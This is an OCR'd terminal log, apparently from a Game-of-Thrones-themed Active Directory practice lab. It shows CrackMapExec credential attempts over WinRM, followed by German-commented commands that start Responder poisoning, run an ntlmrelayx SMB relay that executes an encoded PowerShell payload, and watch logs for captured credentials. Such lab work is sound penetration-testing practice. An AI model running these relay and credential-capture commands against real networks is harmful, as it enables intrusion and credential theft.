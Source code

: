   warnings.warn(
/snap/crackmapexec/295/lib/python3.10/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host '192.168.20.12'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/snap/crackmapexec/295/lib/python3.10/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host '192.168.20.10'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
SMB         192.168.20.23   5986   BRAAVOS          [*] Windows 10.0 Build 14393 (name:BRAAVOS) (domain:essos.local)
SMB         192.168.20.22   5986   CASTELBLACK      [*] Windows 10.0 Build 17763 (name:CASTELBLACK) (domain:north.sevenkingdoms.local)
SMB         192.168.20.12   5986   MEEREEN          [*] Windows 10.0 Build 14393 (name:MEEREEN) (domain:essos.local)
SMB         192.168.20.10   5986   KINGSLANDING     [*] Windows 10.0 Build 17763 (name:KINGSLANDING) (domain:sevenkingdoms.local)
SMB         192.168.20.11   5986   WINTERFELL       [*] Windows 10.0 Build 17763 (name:WINTERFELL) (domain:north.sevenkingdoms.local)
HTTP        192.168.20.12   5986   MEEREEN          [*] https://192.168.20.12:5986/wsman
HTTP        192.168.20.22   5986   CASTELBLACK      [*] https://192.168.20.22:5986/wsman
HTTP        192.168.20.23   5986   BRAAVOS          [*] https://192.168.20.23:5986/wsman
HTTP        192.168.20.11   5986   WINTERFELL       [*] https://192.168.20.11:5986/wsman
HTTP        192.168.20.10   5986   KINGSLANDING     [*] https://192.168.20.10:5986/wsman
HTTP        192.168.20.12   5986   MEEREEN          [-] essos.local\jon.snow:iknownothing 
HTTP        192.168.20.22   5986   CASTELBLACK      [-] north.sevenkingdoms.local\jon.snow:iknownothing
HTTP        192.168.20.23   5986   BRAAVOS          [-] essos.local\jon.snow:iknownothing 
HTTP        192.168.20.11   5986   WINTERFELL       [-] north.sevenkingdoms.local\jon.snow:iknownothing
HTTP        192.168.20.10   5986   KINGSLANDING     [-] sevenkingdoms.local\jon.snow:iknownothing
Running CME against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
(myenv) root@tala-HP-255-15-6-inch-G10-Notebook-PC:~# responder -I eth0 -rdwv &

# SMB Relay gegen Hosts ohne Signierung
echo -e "192.168.20.22\n192.168.20.23" > relay_targets.txt
ntlmrelayx.py -tf relay_targets.txt -smb2support -c "powershell.exe -enc <base64_payload>"

# Monitoring für gefangene Credentials
tail -f /usr/share/responder/logs/SMBv2-*.txt
[1] 519751
/home/tala/myenv/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
responder: Befehl nicht gefunden.
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
